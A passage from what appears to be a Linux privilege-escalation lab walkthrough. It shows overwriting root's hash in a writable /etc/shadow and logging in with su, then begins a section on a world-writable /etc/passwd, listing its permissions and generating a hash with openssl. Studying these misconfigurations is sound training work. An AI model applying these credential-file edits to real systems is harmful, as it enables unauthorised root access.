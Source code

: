 Comment out the old one and add our output as the hash.

**Victim**

```
vi /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (14) (7).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su root
Password: newpasswordhere
```

<figure><img src="../../.gitbook/assets/image (30) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Weak File Permissions - Writable /etc/passwd

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there. Note that the /etc/passwd file is world-writable.

**Victim**

```
ls -l /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (20) (4).png" alt=""><figcaption></figcaption></figure>

Generate a new password hash with a password of your choice.

**Victim**

```
openssl passwd newpasswordhere
```

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>
